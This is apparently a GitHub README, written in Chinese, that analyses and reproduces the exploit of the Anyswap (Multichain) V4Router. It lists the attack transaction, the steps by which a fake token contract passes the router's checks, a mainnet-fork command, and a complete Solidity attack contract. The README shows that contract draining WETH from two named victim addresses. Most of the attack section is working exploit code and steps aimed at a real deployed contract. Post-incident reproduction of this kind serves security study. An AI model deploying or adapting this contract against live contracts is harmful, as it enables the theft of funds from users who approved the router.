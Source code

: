 # Anyswap_Vul_Poc
Anyswap aka Multichain V4Router 攻击事件的分析和复现


### 攻击交易

```
0xd07c0f40eec44f7674dddf617cbdec4758f258b531e99b18b8ee3b3b95885e7d
```

### 块高度

```
14028474
```


### 攻击步骤

1. 攻击合约调用`AnyswapV4Router`的`anySwapOutUnderlyingWithPermit`函数,传入参数：
    1. 受害者地址
    2. 虚假的Token地址
    3. 攻击者的EOA地址
    4. amount=200000000000000000
    5. deadline=100000000000000000000
    6. v=0
    7. r=0x0000000000000000000000000000000000000000000000000000000000000000
    8. s=0x0000000000000000000000000000000000000000000000000000000000000000
    9. toChainID=56

2. 第一步会导致`AnyswapV4Router`调用虚假Token的`underlying()`函数, 虚假Token的返回值为：
    1. WETH的地址


3. 第一步中`AnyswapV4Router`还会调用虚假Token的`depositVault()`函数, 虚假Token的返回值为：
    1. 1


4. 第一步`AnyswapV4Router`最后会调用虚假Token的`burn()`函数, 虚假Token的返回值为：
    1. true

5. 绕过各种校验后, AnyswapV4Router把`WETH`从受害人的账户转入攻击者的EOA地址


### 复现方法

* fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@14028473  -l 4294967295
```

* 部署攻击合约

```js

// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.7.0 <0.9.0;

interface AnyswapV4Router {

    function anySwapOutUnderlyingWithPermit(
        address from,
        address token,
        address to,
        uint256 amount,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s,
        uint256 toChainID
    ) external;
    
}

interface WETH {

    function approve(address guy, uint256 wad) external returns (bool);

    function withdraw(uint256 wad) external;

    function balanceOf(address) external view returns (uint256);

    function transfer(address dst, uint256 wad) external returns (bool);

}



contract poc{

    address AnyswapV4Router_Address = 0x6b7a87899490EcE95443e979cA9485CBE7E71522;

    address WETH_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    function attack(address innocent_user, uint256 amount) public{

        AnyswapV4Router(AnyswapV4Router_Address).anySwapOutUnderlyingWithPermit(innocent_user,address(this),msg.sender,amount,100000000000000000000,0,"0x","0x",56);

        WETH(WETH_Address).transfer(msg.sender, amount);

    }


    function burn(address from, uint256 amount) external returns (bool){
        return true;
    }

    function depositVault(uint amount, address to) external returns (uint){
        return 1;
    }


    function underlying() external view returns (address){
        return WETH_Address;
    }

}


```

* 查询第一个受害者有多少`WETH`

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/innocent_user_1.png)

该用户`0x5136e623126d3572933fbafe59ae97f13dd9687a`有大概5.7个`WETH`

* 调用POC合约的`attack`函数, 传入第一个受害人的地址和数量

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/attack_1.png)


![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/after.png)

* 查询第二个受害者有多少`WETH`

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/innocent_user_2.png)

该用户`0xa8a83c0a6fabadf21dbb1da1d9b24455c56f5573`刚好有3个`WETH`, 并且之前与`Anyswap`交互过

* 同样的操作

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/attack_2.png)


![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/after_attack_2.png)

